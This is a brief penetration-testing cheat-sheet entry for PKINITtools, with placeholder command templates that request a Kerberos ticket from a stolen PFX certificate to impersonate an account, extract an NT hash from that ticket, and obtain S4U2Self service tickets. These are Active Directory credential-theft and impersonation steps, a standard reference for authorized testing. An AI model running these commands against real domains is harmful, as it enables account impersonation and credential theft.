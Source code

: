# PKINITtools

% adcs, certificate, pki, windows, Active directory, template, shadow credential


## PKINITtools - Request a TGT using a PFX
#plateform/linux #target/remote #cat/RECON
```
gettgtpkinit -cert-pfx <pfx-path> -dc-ip <ip> <domain>/<accountToImpersonate> <ccache-path>
```

## PKINITtools - hash from TGT and AS REP key
#plateform/linux #target/remote #cat/RECON
```
export KRB5CCNAME=<cache-path> && getnthash <domain>/<ComputerAccount> -key <key>
```

## PKINITtools - silver ticket
#plateform/linux #target/remote #cat/RECON
```
gets4uticket 
```
Uses Kerberos S4U2Self to request a service ticket that is valid on the host for which you've obtained a certificate